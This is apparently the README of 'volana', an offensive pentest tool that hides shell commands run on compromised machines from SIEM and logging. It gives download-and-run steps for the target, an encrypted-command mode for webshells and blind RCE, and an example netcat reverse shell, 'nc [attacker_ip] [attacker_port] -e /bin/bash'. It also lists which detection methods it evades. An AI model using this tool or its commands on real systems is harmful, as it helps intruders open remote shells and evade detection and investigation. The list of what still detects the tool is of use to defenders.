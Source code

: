 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM/detection system </h4>
 <p> During pentest, an important aspect is to <b>be stealth</b>. For this reason you should <b>clear your tracks after your passage</b>. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the afterwards cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana execute for you). Like this y you <b>clear your tracks DURING your passage</b></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job ! [otherwise](#from-non-interactive-shell)). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## Build volana with encryption key
make build.volana-with-encryption

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decr [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use volana usually (.volana)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched


* Detection systems that are based on history command output
* Detection systems that are based on historic files
  * `.bash_history`, ".zsh_history" etc ..

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case

